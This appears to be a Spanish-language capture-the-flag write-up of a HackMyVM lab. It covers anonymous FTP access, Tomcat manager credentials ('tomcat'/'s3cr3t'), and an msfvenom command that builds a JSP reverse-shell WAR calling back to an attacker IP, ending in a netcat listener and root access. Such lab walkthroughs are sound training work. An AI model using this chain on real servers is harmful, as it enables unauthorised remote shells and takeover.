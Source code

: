 ##MAQUINA -Pn

Iniciamos la maquina 

![img](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-05-02%20205809.png)

Hacemos un ping a la ip para ver si tenemos conectividad, el ttl al ser 64 puede ser que nos estemos enfrentando a una maquina Linux.

![img](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-05-02%20205900.png)

Una vez que tengamos la ip usamos nmap para ver los servicios y puertos que corren en la maquina:

![img](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-05-02%20210049.png)

Como un script de nmap nos muestra que en el puerto ftp podemos loguearnos como anonymous entramos dentro sin proporcionar contraseña.

Una vez dentro nos descargamos el archivo tomcat.txt.


![img](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-05-02%20210217.png)

El archivo tomcat.txt nos proporciona un usuario llamado "tomcat".

![img](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-05-02%20211624.png)

Ahora entramos al servidor web que corren en el puerto 8080.

![img](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-05-02%20213821.png)

Una vez ingresado vamos al apartado donde dice "manager webapp": 
Esto nos va a redirigir a un inicio de sesion el cual vamos a utilizar las siguiente credenciales:

````console
user: tomcat
password: s3cr3t
````

Ya estamos dentro del tomcat.

![img](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-05-02%20214138.png)

Hay una opcion donde vamos a poder subir un archivo .war.

![img](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-05-02%20214927.png)

Para ellos vamos a usar msfvenom para crear nuestro payload:

Este no funciona, pero hay que probar.

![img](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-05-02%20221329.png)

Utilizamos este que si funciono

```console
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.162 LPORT=443 -f war > reverse.war
```

lista de payload msfvenom:

https://www.nosolohacking.info/msfvenom-creando-diferentes-tipos-de-payloads/

Una vez subido nos va a aparecer en el inicio, asi que con en otra terminal nos ponemos en escucha con netcat y le damos 1 click y esperamos

![img](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-05-02%20221151.png)

![img](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-05-02%20221030.png)

LISTO SOMOS ROOT!
